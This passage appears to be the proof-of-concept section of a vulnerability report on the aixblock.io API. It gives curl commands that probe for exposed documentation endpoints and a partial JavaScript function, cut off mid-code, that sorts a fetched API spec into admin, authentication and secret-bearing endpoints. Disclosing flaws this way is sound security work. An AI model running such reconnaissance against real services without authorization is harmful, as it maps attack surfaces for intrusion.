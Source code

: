 ## Proof of Concept

### Step 1: API Documentation Discovery
```bash
# Discover exposed API documentation
curl -X GET "https://api.aixblock.io/api-docs" \
  -H "Accept: application/json" \
  -H "User-Agent: Mozilla/5.0"

# Alternative documentation endpoints
curl -X GET "https://api.aixblock.io/swagger-ui" \
  -H "Accept: text/html"

curl -X GET "https://api.aixblock.io/openapi.json" \
  -H "Accept: application/json"
```

### Step 2: Sensitive Information Extraction
```javascript
// Extract sensitive information from API documentation
const extractSensitiveInfo = async (apiDocsUrl) => {
    try {
        const response = await fetch(apiDocsUrl);
        const apiSpec = await response.json();
        
        // Extract sensitive endpoints
        const sensitiveEndpoints = [];
        const authEndpoints = [];
        const adminEndpoints = [];
        
        for (const [path, methods] of Object.entries(apiSpec.paths)) {
            for (const [method, details] of Object.entries(methods)) {
                // Check for sensitive operations
                if (details.tags?.includes('admin') || 
                    details.tags?.includes('internal') ||
                    path.includes('/admin') ||
                    path.includes('/internal')) {
                    adminEndpoints.push({ path, method, details });
                }
                
                // Check for authentication endpoints
                if (path.includes('/auth') || 
                    path.includes('/login') ||
                    path.includes('/token')) {
                    authEndpoints.push({ path, method, details });
                }
                
                // Check for sensitive parameters
                if (details.parameters) {
                    const sensitiveParams = details.parameters.filter(param => 
                        param.name.includes('password') ||
                        param.name.includes('token') ||
                        param.name.includes('secret')
                    );
                    
                    if (sensitiveParams.length > 0) {
                        sensitiveEndpoints.push({ path, method, sensitiveParams });
                    }
                }
            }
        }
        
        return {
```